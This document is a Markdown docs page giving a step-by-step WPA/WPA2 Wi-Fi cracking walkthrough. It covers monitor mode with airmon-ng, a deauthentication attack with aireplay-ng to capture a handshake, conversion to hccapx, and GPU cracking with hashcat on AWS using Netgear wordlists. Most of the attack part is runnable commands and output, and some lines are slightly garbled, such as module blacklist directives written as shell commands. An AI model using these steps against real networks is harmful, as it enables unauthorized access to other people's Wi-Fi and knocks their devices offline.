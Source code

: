 ```yaml
---

layout: page

title: Security

permalink: /security/

parent: Miscellaneous

nav_order: 11

---
```


  # 1. Check if you card supports monitor mode and packet injection
  Here is a list of NIC's that supports monitor mode [Existing Linux Wireless drivers](https://wireless.wiki.kernel.org/en/users/drivers) To know which type of chipset inside your wireless NIC, you can run :
  
  ```bash
lsusb -vv

Bus 001 Device 002: ID 148f:5372 Ralink Technology, Corp. RT5372 Wireless Adapter
Device Descriptor:
  bLength                18
  bDescriptorType         1
  bcdUSB               2.00
  bDeviceClass            0 (Defined at Interface level)
  bDeviceSubClass         0
  bDeviceProtocol         0
  bMaxPacketSize0        64
  idVendor           0x148f Ralink Technology, Corp.
  idProduct          0x5372 RT5372 Wireless Adapter
  bcdDevice            1.01
  iManufacturer           1 Ralink
  iProduct                2 802.11 n WLAN
  iSerial                 3 (error)
  bNumConfigurations      1
```
  
  In order to put your card in monitor mode, first you need to get the name of your wireless card by running **ifconfig**, for example, my wireless card is named **wlan0**, then you can put your card in you can run:
  
  ```bash
airmon-ng start wlan0

Found 3 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to run 'airmon-ng check kill'

  PID Name
  428 NetworkManager
  522 dhclient
  718 wpa_supplicant

PHY	Interface	Driver		Chipset

phy1	wlan0		rt2800usb	Ralink Technology, Corp. RT5372

		(mac80211 monitor mode vif enabled for [phy1]wlan0 on [phy1]wlan0mon)
		(mac80211 station mode vif disabled for [phy1]wlan0)
```

By running **iwconfig** , you should see that your card has changed from **wlan0** -> **wlan0mon**
  
  To test the package injection, try by running
  
  ```bash
aireplay-ng --test wlan0mon

12:47:05  Waiting for beacon frame (BSSID: AA:BB:CC:DD:EE) on channel 7
12:47:05  Trying broadcast probe requests...
12:47:06  Injection is working!
12:47:07  Found 1 AP

12:47:07  Trying directed probe requests...
12:47:07  AA:BB:CC:DD:EE - channel: 7 - 'Dobis'
12:47:08  Ping (min/avg/max): 0.891ms/15.899ms/32.832ms Power: -21.72
12:47:08  29/30:  96%
```

# 2. Listen to nearby routers. 
**Kill any processes that return errors.** In some cases, your Wi-Fi card will conflict with running services on your computer. You can kill these processes by entering the following command: 

```bash
airmon-ng check kill
```

To get a list of all routers in range, enter the following command:

```bash
airodump-ng wlan0mon 
```

![Image1](https://www.wikihow.com/images/thumb/c/c5/6560850-21.jpg/aid6560850-v4-728px-6560850-21.jpg.webp)


**Make sure the router is using WPA or WPA2 security.**

**Note the MAC address and channel number of the router.** These pieces of information are to the left of the network's name:

-   _MAC address_ — This is the line of numbers on the far-left side of your router's line.
-   _Channel_ — This is the number (e.g., 0, 1, 2, etc.) directly to the left of the WPA or WPA2 tag

## Extra commands

```$ sudo aireplay-ng --test wlan0mon```
```$ sudo besside-ng wlan0mon -R 'RouterName'```

# 3. Monitor your selected network for a handshake.

```$ sudo aireplay-ng -0 10 -a 9X:XX:XX:XX:XX:X5 -w /root/Desktop/ wlan0mon```

Wait for a handshake to appear.
![Image](https://www.wikihow.com/images/thumb/6/6d/6560850-25.jpg/aid6560850-v4-728px-6560850-25.jpg.webp)

Press **ctrl + c** once the handshake appears. To restore your wlan:

```
	$ ifconfig
	
	$ sudo airmon-ng stop wlan0
   
   	$ sudo ifconfig wlan0 up
```

Now we need to convert the capture file to **hccapx**  by using **hashcat-util

```
	$ git clone https://github.com/hashcat/hashcat-utils.git
	$  cd hashcat-utils/src
	$ make
	$ sudo mv *.bin/usr/local/bin/
	$ sudo mv *.bin /usr/local/bin/
	$ sudo cp -a *.pl /usr/local/bin
  
	$ cap2hccapx.bin name.cap output.name.hccapx 
	
```
	
   
# 4. Using hashcat

## Environment
- I will spin up any Ubuntu EC2 instance, with enough GPU (**g3s.xlarge** or **p3.16xlarge** ) power to use hashcat and run the following commands:

```
	$ sudo apt-get update
	$ sudo apt-get install -y linux-image-extra-virtual build-essential linux-headers-$(uname -r) p7zip-full
```

```
	$ blacklist nouveau
	$ blacklist lbm-nouveau  
	$ options nouveau modeset=0  
	$ alias nouveau off  
	$ alias lbm-nouveau off
```

- Add the following to /etc/modprobe.d/nouveau-kms.conf :

		options nouveau modeset=0

- Update the boot process and reboot:

		sudo update-initramfs -u  
		sudo reboot

- Download and install the NVIDIA package:

		$ wget http://us.download.nvidia.com/tesla/440.33.01/NVIDIA-Linux-x86_64-440.33.01.run  
		$ sudo /bin/bash NVIDIA-Linux-x86_64-440.33.01.run --ui=none --no-questions --silent -X

- Test the installation:

		sudo nvidia-smi

![Image3](https://akimbocore.com/article/image/42706d9a-fbd3-457d-8c1c-ce0ba6006d1b/d6e6d288-b536-4f5f-932f-9aaef6b391f6/)

- Download and extract Hashcat:

		$ wget https://hashcat.net/files/hashcat-6.2.4.7z
  
		$ 7za x hashcat-6.2.4.7z
		
- Benchmark your hardware by running:

		$ ./hashcat64.bin -m 2500 -b
		
## Commands
- First I will cp the file ***output.name.hccapx*** into the EC2 instance. Also I will install **hashcat-utils** in order to use combinator.bin utility.
-  Because my router is natgear, I will use the following 3 dictionaries (adjectives + nouns + numbers):

		$  git clone https://github.com/LivingInSyn/netgear_hashcat_wordlist.git
  
  
  		$ combinator3.bin wordlists/adjectives.txt wordlists/nouns.txt wordlists/numbers.txt | hashcat -m 2500 -o resultFile.txt ~/Desktop/output-03.name.hccapx 

# Links

- [How to install Hashcat on AWS](https://akimbocore.com/article/hashcracking-with-aws/)
- [How to Hack WPA/WPA2 Wi Fi with Kali Linux](https://www.wikihow.com/Hack-WPA/WPA2-Wi-Fi-with-Kali-Linux)
- [Dictionaries for Netgear for Hashcat](https://github.com/LivingInSyn/netgear_hashcat_wordlist)
- [Test if Wireless card supports monitor mode and packet injection](https://null-byte.wonderhowto.com/how-to/check-if-your-wireless-network-adapter-supports-monitor-mode-packet-injection-0191221/)
- [Hashcat tutorial](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)